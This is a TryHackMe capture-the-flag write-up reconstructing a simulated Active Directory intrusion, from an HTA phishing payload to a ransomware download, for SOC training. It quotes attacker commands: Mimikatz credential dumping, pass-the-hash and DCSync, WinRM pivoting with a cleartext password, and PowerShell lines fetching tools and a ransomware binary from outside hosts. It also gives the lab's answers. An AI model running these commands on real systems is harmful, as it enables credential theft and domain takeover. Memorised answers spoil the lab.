# Boogeyman 3: Lurking in the Dark — CTF Writeup

* **Platform:** TryHackMe  
* **Room:** Boogeyman 3  
* **Category:** DFIR / Active Directory / Lateral Movement  
* **Difficulty:** Medium  
* **Analyst:** Mahmoud Hussien
* **Incident Date:** August 29–30, 2023  
* **Tools:** Elastic SIEM, PowerShell, Mimikatz Analysis

---

## Scenario Overview

Quick Logistics LLC hired an MSSP after the previous Boogeyman attacks — but the threat actor was already inside. Using a previously compromised internal account, the Boogeyman sent a spear-phishing email to **CEO Evan Hutchinson**, mounting a malicious ISO containing a hidden HTA payload. Over two days, the attacker escalated from a standard user session to full **Active Directory domain compromise** via UAC bypass, credential dumping, Pass-the-Hash, lateral movement, and a DCSync attack — culminating in a LockBit ransomware deployment attempt.

---

## Incident Timeline

| Timestamp | Phase | Description |
|---|---|---|
| Aug 29 @ 23:51:15 | Initial Access | CEO executes HTA payload from mounted ISO |
| Aug 29 (sequential) | Persistence | `review.dat` implanted + scheduled task created |
| Aug 29 (sequential) | C2 | Beaconing to `165.232.170.151:80` |
| Aug 30 (sequential) | Privilege Escalation | UAC bypass via `fodhelper.exe` |
| Aug 30 (sequential) | Credential Access | Mimikatz dumps `itadmin` NTLM hash |
| Aug 30 (sequential) | Lateral Movement | PtH pivot + cleartext creds from IT share |
| Aug 30 (sequential) | Lateral Movement 2 | WinRM session to `WKSTN-1327` as `allan.smith` |
| Aug 30 (sequential) | Domain Compromise | DCSync attack — `backupda` hash dumped |
| Aug 30 (sequential) | Actions on Objectives | LockBit ransomware downloaded from C2 |

---

## Phase 1 — Initial Access & Execution

**MITRE:** T1566.002 — Phishing: Spearphishing Link | T1218.005 — Mshta

### Investigation

The attacker sent a spear-phishing email from a **compromised internal account** (`allie.sierra@quicklogistics.org`) to CEO Evan Hutchinson with the subject:

> *"Urgent Financial Matter Requiring Immediate Attention"*

The attachment was an **ISO file** named `ProjectFinancialSummary_Q3.pdf` — appearing as a PDF. When double-clicked, Windows auto-mounted the ISO, revealing a hidden **HTML Application (HTA)** file:

```
ProjectFinancialSummary_Q3.pdf.hta
```

The `.hta` extension was hidden by Windows default settings, making it visually appear as the expected PDF to the CEO.

**Executing Binary:** `C:\Windows\SysWOW64\mshta.exe`  
**Parent Process:** `C:\Windows\Explorer.EXE`  
**Full Command Line:**

```
"C:\Windows\SysWOW64\mshta.exe" "D:\ProjectFinancialSummary_Q3.pdf.hta" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}
```

### Question 1 — What is the PID of the process that executed the initial stage 1 payload?

**Answer:**

```
6392
```


---

## Phase 2 — Implantation, Persistence & C2

**MITRE:** T1105 — Ingress Tool Transfer | T1053.005 — Scheduled Task | T1071.001 — Web Protocols

### Question 2 — What is the full command-line of the file implantation?

Once `mshta.exe` was active, it spawned `xcopy.exe` to copy the hidden DLL payload from the mounted ISO to the local Temp directory:

**Answer:**

```
"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
```


---

### Question 3 — What is the full command-line of the implanted file execution?

After copying, `mshta.exe` executed the payload via `rundll32.exe` — a living-off-the-land technique that uses a legitimate Windows binary to load and run the malicious DLL:

**Answer:**

```
"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer
```


---

### Question 4 — What is the name of the scheduled task created by the malicious script?

The script registered a daily persistence task to ensure re-execution after reboot:

```powershell
Register-ScheduledTask Review -InputObject $D -Force
```

- **Trigger:** Daily at 06:00 AM
- **Action:** Executes `review.dat` via `rundll32.exe`

**Answer:**

```
Review
```


---

### Question 5 — What is the IP and port used by the C2 connection?

Following execution of the payload, an active outbound HTTP beaconing session was established to the attacker's C2 server:

**Answer:**

```
165.232.170.151:80
```


---

## Phase 3 — Privilege Escalation & Credential Access

**MITRE:** T1548.002 — Bypass UAC via fodhelper | T1003.001 — LSASS Memory

### Question 6 — What is the process used for the UAC bypass?

The attacker confirmed local admin access via `whoami /groups`, then abused `fodhelper.exe` — a Windows Features binary that auto-elevates without triggering a UAC prompt — to achieve a high-integrity process context silently.

**Answer:**

```
fodhelper.exe
```


---

### Question 7 — What is the GitHub link used to download the credential dumping tool?

With elevated privileges, PowerShell was used to download Mimikatz:

```powershell
iwr https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -OutFile mimikatz.zip
```

**Answer:**

```
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```


---

### Question 8 — What is the username and hash of the first dumped credential pair?

Mimikatz was used to dump LSASS memory and extract NTLM hashes:

```
sekurlsa::logonpasswords
```

**Answer:**

```
itadmin:F84769D250EB95EB2D7D8B4A1C5613F2
```


---

## Phase 4 — Discovery & Lateral Movement (Pass-the-Hash)

**MITRE:** T1550.002 — Pass the Hash | T1021.002 — SMB/Windows Admin Shares

### Question 9 — What is the name of the file accessed from a remote share?

Armed with the `itadmin` NTLM hash, the attacker used Mimikatz's Pass-the-Hash module:

```
sekurlsa::pth /user:itadmin /domain:QUICKLOGISTICS /ntlm:F84769D250EB95EB2D7D8B4A1C5613F2
```

Then imported **PowerView** to enumerate accessible shares:

```powershell
Import-Module PowerView
Get-DomainComputer
Invoke-ShareFinder
```

The share `\\WKSTN-1327.quicklogistics.org\ITFiles\` was discovered and accessed:

**Answer:**

```
IT_Automation.ps1
```


---

### Question 10 — What is the new set of credentials discovered by the attacker?

The `IT_Automation.ps1` script contained **hardcoded cleartext credentials** — a critical security misconfiguration:

**Answer:**

```
QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987
```


---

### Question 11 — What is the hostname of the attacker's lateral movement target?

**Answer:**

```
WKSTN-1327
```


---

## Phase 5 — Remote Host Compromise & Domain Escalation

**MITRE:** T1021.006 — PowerShell Remoting (WinRM) | T1003.006 — DCSync

### Question 12 — What is the parent process of the malicious command on the second machine?

The attacker used PowerShell Remoting to pivot to `WKSTN-1327`:

```powershell
$cred = New-Object PSCredential("QUICKLOGISTICS\allan.smith", (ConvertTo-SecureString "Tr!ckyP@ssw0rd987" -AsPlainText -Force))
Invoke-Command -ComputerName WKSTN-1327 -Credential $cred -ScriptBlock { ... }
```

On the target machine, all commands spawned under the WinRM service host process:

**Answer:**

```
wsmprovhost.exe
```


---

### Question 13 — What is the username and hash dumped from the second machine?

Mimikatz was re-executed on `WKSTN-1327` to dump the local Domain Admin credentials:

**Answer:**

```
administrator:00f80f2538dcb54e7adc715c0e7091ec
```


---

### Question 14 — Aside from the administrator, what account did the attacker dump via DCSync?

With Domain Admin hash in hand, the attacker executed a **DCSync attack** — abusing AD replication rights to pull password hashes directly from the Domain Controller without needing to log into it:

```
lsadump::dcsync /domain:quicklogistics.org /user:backupda
```

**Answer:**

```
backupda
```


---

## Phase 6 — Actions on Objectives (Ransomware)

**MITRE:** T1486 — Data Encrypted for Impact | T1105 — Ingress Tool Transfer

### Question 15 — What is the link used to download the ransomware binary?

Having achieved full domain compromise, the attacker staged the final LockBit ransomware payload from an external server:

```powershell
iwr http://ff.sillytechninja.io/ransomboogey.exe -OutFile update.exe
```

**Answer:**

```
http://ff.sillytechninja.io/ransomboogey.exe
```


---

## Full Attack Chain Reconstruction

```
[1] Initial Access
    └─ Phishing from: allie.sierra@quicklogistics.org (compromised internal)
    └─ Target: CEO Evan Hutchinson
    └─ Attachment: ISO → ProjectFinancialSummary_Q3.pdf.hta
    └─ Executed by: mshta.exe (PID: 6392)

[2] Implantation & Persistence
    └─ xcopy: D:\review.dat → C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
    └─ rundll32.exe D:\review.dat,DllRegisterServer (PID: 3680)
    └─ Scheduled Task "Review" — daily 06:00 AM
    └─ C2 beacon: 165.232.170.151:80

[3] Privilege Escalation
    └─ UAC bypass: fodhelper.exe
    └─ Elevated to high-integrity context silently

[4] Credential Dumping (Machine 1)
    └─ Downloaded Mimikatz from GitHub
    └─ Dumped: itadmin:F84769D250EB95EB2D7D8B4A1C5613F2

[5] Discovery & Lateral Movement
    └─ Pass-the-Hash with itadmin
    └─ PowerView: Invoke-ShareFinder
    └─ Found: \\WKSTN-1327\ITFiles\IT_Automation.ps1
    └─ Cleartext creds: allan.smith:Tr!ckyP@ssw0rd987

[6] Lateral Movement to WKSTN-1327
    └─ WinRM: Invoke-Command as allan.smith
    └─ Parent process on target: wsmprovhost.exe
    └─ Dumped: administrator:00f80f2538dcb54e7adc715c0e7091ec

[7] Domain Compromise
    └─ DCSync attack from WKSTN-1327
    └─ Dumped: backupda (AD replication account)

[8] Actions on Objectives
    └─ Downloaded LockBit: http://ff.sillytechninja.io/ransomboogey.exe
    └─ Saved as: update.exe
```

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Email | `allie.sierra@quicklogistics.org` | Compromised internal sender |
| File | `ProjectFinancialSummary_Q3.pdf.hta` | Initial HTA payload (ISO-mounted) |
| File | `C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat` | Implanted DLL backdoor |
| Task | `Review` | Persistence scheduled task (daily 06:00) |
| IP:Port | `165.232.170.151:80` | C2 beaconing server |
| Process | `fodhelper.exe` | UAC bypass vector |
| URL | `https://github.com/gentilkiwi/mimikatz/...` | Mimikatz download |
| Credential | `itadmin:F84769D250EB95EB2D7D8B4A1C5613F2` | Dumped NTLM hash (Machine 1) |
| File | `\\WKSTN-1327\ITFiles\IT_Automation.ps1` | Script with hardcoded creds |
| Credential | `allan.smith:Tr!ckyP@ssw0rd987` | Cleartext credential (script) |
| Credential | `administrator:00f80f2538dcb54e7adc715c0e7091ec` | Domain Admin NTLM (Machine 2) |
| Account | `backupda` | AD replication account (DCSync) |
| URL | `http://ff.sillytechninja.io/ransomboogey.exe` | LockBit ransomware download |

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment |
| Execution | T1218.005 | Mshta (HTA execution) |
| Execution | T1059.001 | PowerShell |
| Execution | T1218.011 | Rundll32 |
| Persistence | T1053.005 | Scheduled Task |
| Defense Evasion | T1036 | Masquerading (ISO as PDF) |
| Privilege Escalation | T1548.002 | Bypass UAC: Fodhelper |
| Credential Access | T1003.001 | LSASS Memory (Mimikatz) |
| Credential Access | T1003.006 | DCSync |
| Discovery | T1069 | Permission Groups Discovery (PowerView) |
| Discovery | T1135 | Network Share Discovery |
| Lateral Movement | T1550.002 | Pass the Hash |
| Lateral Movement | T1021.006 | PowerShell Remoting (WinRM) |
| Command & Control | T1071.001 | Web Protocols (HTTP beaconing) |
| Impact | T1486 | Data Encrypted for Impact (LockBit) |

---

## Boogeyman Series — TTPs Evolution

| Aspect | Boogeyman 1 | Boogeyman 2 | Boogeyman 3 |
|---|---|---|---|
| Target | Finance (Julianne) | HR (Maxine) | CEO (Evan) |
| Attachment | LNK (Excel icon) | DOC (VBA macro) | ISO → HTA |
| Stage 1 | PowerShell cradle | wscript.exe (JS) | mshta.exe |
| Persistence | None | Fileless registry + schtask | Scheduled task (DLL) |
| Privilege Esc. | None | None | UAC bypass (fodhelper) |
| Lateral Movement | None | None | PtH + WinRM |
| Domain Impact | None | None | Full DCSync compromise |
| Final Objective | Credit card theft | C2 foothold | LockBit ransomware |

---

## Recommendations

1. **Isolate infected assets** — Immediately disconnect the CEO workstation and `WKSTN-1327` to contain ransomware spreading.
2. **Global password resets** — Force immediate resets for `administrator`, `itadmin`, `allan.smith`, and `backupda`.
3. **Audit DCSync rights** — Review all accounts with "Replicating Directory Changes" and "Replicating Directory Changes All" extended AD rights.
4. **Remove hardcoded credentials from scripts** — Scan all network shares for scripts containing cleartext passwords. Implement a secrets manager (CyberArk, HashiCorp Vault).
5. **Block mshta.exe from ISO/removable media** — Configure AppLocker or WDAC rules to prevent `mshta.exe` from executing payloads directly from mounted ISOs.
6. **Monitor WinRM across non-admin hosts** — `wsmprovhost.exe` spawning commands on standard workstations should trigger an immediate alert.
7. **Block ISO auto-mount** — Disable Windows ISO auto-mounting via Group Policy to prevent drive-by HTA execution.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Boogeyman 3*